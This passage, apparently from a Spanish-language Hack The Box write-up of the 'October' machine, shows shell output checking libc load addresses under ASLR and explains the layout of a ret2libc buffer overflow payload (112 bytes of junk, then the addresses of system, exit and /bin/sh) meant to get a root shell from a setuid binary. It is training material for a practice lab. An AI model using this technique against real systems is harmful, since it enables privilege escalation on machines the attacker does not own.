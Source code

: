 ```bash
www-data@october:~$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb777b000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c1000)
        /lib/ld-linux.so.2 (0x80050000)
www-data@october:~$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb7781000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c7000)
        /lib/ld-linux.so.2 (0x800dc000)
www-data@october:~$
www-data@october:~$ for i in $(seq 1 1000); do ldd /usr/local/bin/ovrflw; done | grep libc | awk 'NF{print $NF}' | tr -d '()' | grep 0xb75c7000
0xb75c7000
0xb75c7000
www-data@october:~$
```

Ahora, para nuestro script de *buffer overflow* debemos tener presente la siguiente secuencia de envío de datos:

![""](/assets/images/htb-october/october-ret2libc.png)

 - Junk: Los datos a introducir que llenan el buffer, para este caso son 112 caracteres.
 - Payload: Llamada a la librería *libc* la cual cuenta con funciones útiles. Esta se divide en tres partes:
   - System address: La dirección de la llamada a la función system.
   - Exit address: La dirección del código de estado.
   - Binario address: La dirección de la `/bin/sh` que utilizaremos para que **root** nos la ejecute.
